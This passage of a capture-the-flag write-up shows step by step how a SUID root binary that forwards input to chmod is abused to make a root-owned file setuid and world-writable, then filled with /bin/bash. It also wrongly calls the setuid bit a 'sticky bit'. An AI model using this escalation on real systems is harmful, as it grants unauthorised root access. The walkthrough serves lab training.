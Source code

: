 We see a file, `.egg-cracker` that has a SUID bit set (indicated by the `s` in the file permissions). We can see what this is:

```bash
[master-baker@SESH-PI ~]$ file .egg-cracker
.egg-cracker: setuid ELF 64-bit LSB executable, ARM aarch64, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux-aarch64.so.1, for GNU/Linux 3.7.0, not stripped
```

Running it gives us a bit more information - we can see it's trying to run `chmod`:

```bash
[master-baker@SESH-PI ~]$ ./.egg-cracker
Howdy fella, I can help you crack eggs!
How shall I scramble things?: idk
chmod: invalid mode: ‘idk’
Try 'chmod --help' for more information.
```

We can also look at `.egg`:

```bash
Do not try and crack the egg, that's impossible. Instead, only try to realize
the truth...there is no egg. Then you will see it is not the egg that
cracks, it is the whole pi.
```

As it's owned by root, we can try to give this some useful permissions:

```bash
[master-baker@SESH-PI ~]$ ./.egg-cracker
Howdy fella, I can help you crack eggs!
How shall I scramble things?: u+s .egg
[master-baker@SESH-PI ~]$ ./.egg-cracker
Howdy fella, I can help you crack eggs!
How shall I scramble things?: 777 .egg
```

These are the new permissions:

```bash
-rwsrwxrwx 1 root         root            3 May 17 18:03 .egg
```

It's now writeable, executable, and crucially has a sticky bit - this means when we execute it, it executes as root!

So we can edit its contents... But to do what? We can't use a plain `/bin/bash`, as bash is [designed for security reasons to drop its privileges](https://focus-linux.securityfocus.narkive.com/L4uQ5nDr/no-root-shell-with-suid-bin-bash) if run with suid (but we can try and see what happens):

```bash
[master-baker@SESH-PI ~]$ cat /bin/bash > .egg
[master-baker@SESH-PI ~]$ ./.egg-cracker
Howdy fella, I can help you crack eggs!
How shall I scramble things?: u+s .egg
[master-baker@SESH-PI ~]$ ./.egg-cracker
Howdy fella, I can help you crack eggs!
How shall I scramble things?: 777 .egg
[master-baker@SESH-PI ~]$ ./.egg
[master-baker@SESH-PI ~]$ exit
exit
[master-baker@SESH-PI ~]$
```
